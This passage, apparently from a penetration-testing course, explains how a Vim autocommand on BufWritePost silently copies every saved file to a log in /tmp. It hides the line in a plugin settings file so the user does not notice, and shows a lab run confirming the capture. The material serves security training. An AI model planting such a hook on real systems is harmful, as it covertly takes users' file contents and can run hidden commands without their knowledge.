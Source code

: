 We can use :autocmd in a VIM configuration file or in the editor to set actions for a collection of predefined events. A complete list is too extensive to include here, but can be viewed at the autocommand reference linked above.

Some useful examples are _VimEnter_ (entering VIM), _VimLeave_ (leaving VIM), _FileAppendPre_ (right before appending to a file), and _BufWritePost_ (after writing a change buffer to a file). All of these provide different triggers for performing actions that might benefit an attacker.

We don't want to risk preventing the user from actually saving their files as this might alert them. To avoid this, we can perform our actions based on the BufWritePost event in VIM. This activates once a buffer has already been written to the intended file.

We can define an autocommand using the _autocmd_ keyword. We then specify which autocommand trigger we want to use, then identify which files we want it to act on. Finally, we'll provide the command we want to perform once the action is triggered.

Let's set up an autocommand that fires on the BufWritePost action and then writes the content of the file to a log file we specify. We want the action to work on all files being edited. The command would look something like this.

```
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
```

> Listing 12 - Setting an action for our autocommand event

In the above command, we start by specifying that we're defining an autocommand via :autocmd. BufWritePost is the event we're going to trigger on, meaning that after a buffer is written to a file, we will perform our action. The "*" specifies that this action will be performed for all files being edited. We could change this to match only files with a particular name or file extension, but in our case we want to do this for every file. Everything after this point is the actual command we'll perform when the trigger is activated.

The command being run after our condition is triggered is made up of several subcommands. First, we specify that there shouldn't be any debug output by using the :silent command. We then use :w! to save the buffer contents. The exclamation point (!) is a force modifier. In this case, it will overwrite an existing file if one exists and write to file, even if the file doesn't already exist. We then redirect the output to append to /tmp/hackedfromvim.txt.

Putting the above command into our user's .vimrc file is not very discreet, so let's add a layer of obfuscation. To do this, we can load a secondary VIM configuration file from a different location. We'll put our command in /home/offsec/.vim/plugin/settings.vim. While this doesn't prevent the user from viewing the file, it does make it less likely the user will see it.

If we run VIM on a test file and insert any content, we notice that we don't get any error messages or indication that anything is wrong. Additionally, our output file was written successfully as shown in the listing below.

```
offsec@linuxvictim:~$ vi /tmp/test.txt

offsec@linuxvictim:~$ ls -al /tmp/hackedfromvim.txt
-rw-rw-r-- 1 offsec offsec 26 Jul 31 13:52 /tmp/hackedfromvim.txt
```

> Listing 13 - Our attack worked successfully

It's also possible to run shell commands on an autocommand trigger. For example, if we wanted to run a shell script instead of saving the buffer to a file, we could just replace everything after ":silent" with "!" followed by a shell script name or shell command. Note that in our current restricted environment, we can't use this approach.
